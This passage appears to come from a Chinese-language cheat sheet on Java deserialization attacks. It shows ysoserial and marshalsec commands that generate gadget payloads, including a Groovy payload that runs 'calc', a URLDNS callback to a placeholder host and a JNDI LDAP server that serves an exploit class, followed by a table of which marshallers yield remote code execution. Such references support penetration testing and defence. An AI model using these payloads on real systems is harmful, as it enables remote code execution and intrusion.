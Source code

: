   ```java
  java -jar ysoserial.jar URLDNS http://xx.yy > yss_base.bin
  python deserek.py yss_base.bin --format python > yss_url.py
  python yss_url.py yss_new.bin
  java -cp JavaSerializationTestSuite DeSerial yss_new.bin
  ```

* [mbechler/marshalsec](https://github.com/mbechler/marshalsec) - Java Unmarshaller 安全性 - 将你的数据转换为代码执行

  ```java
  $ java -cp marshalsec.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
  $ java -cp marshalsec.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"
  $ java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8000\#exploit.JNDIExploit 1389
  // -a - 为该 marshaller 生成/测试所有有效载荷
  // -t - 测试模式，生成有效载荷后对其进行反序列化测试。
  // -v - 详细模式，例如在测试模式下也会显示生成的有效载荷。
  // gadget_type - 特定小工具的标识符，若省略将显示该特定 marshaller 支持的所有有效载荷。
  // arguments - 小工具特定参数
  ```

以下 marshaller 包含的有效载荷生成器：

| Marshaller                      | 小工具影响                                 |
| ------------------------------- | ------------------------------------------- |
| BlazeDSAMF(0&#124;3&#124;X)     | JDK 仅限升级到 Java 序列化各种第三方库 RCEs |
| Hessian&#124;Burlap             | 各种第三方 RCEs                           |
| Castor                          | 依赖库 RCE                               |
| Jackson                         | **可能仅为 JDK RCE**，各种第三方 RCEs      |
| Java                            | 另一个第三方 RCE                         |
| JsonIO                          | **仅为 JDK RCE**                        |
| JYAML                           | **仅为 JDK RCE**                        |
| Kryo                            | 第三方 RCEs                              |
| KryoAltStrategy                 | **仅为 JDK RCE**                        |
| Red5AMF(0&#124;3)               | **仅为 JDK RCE**                        |
| SnakeYAML                       | **仅为 JDK RCEs**                       |
| XStream                         | **仅为 JDK RCEs**                       |
| YAMLBeans                       | 第三方 RCE                               |

## YAML 反序列化

SnakeYAML 是一个流行的基于 Java 的库，用于解析和生成 YAML 数据（YAML Ain't Markup Language）。它提供了易于使用的 API 来处理 YAML，这是一种人类可读的数据序列化标准，常用于配置文件和数据交换。

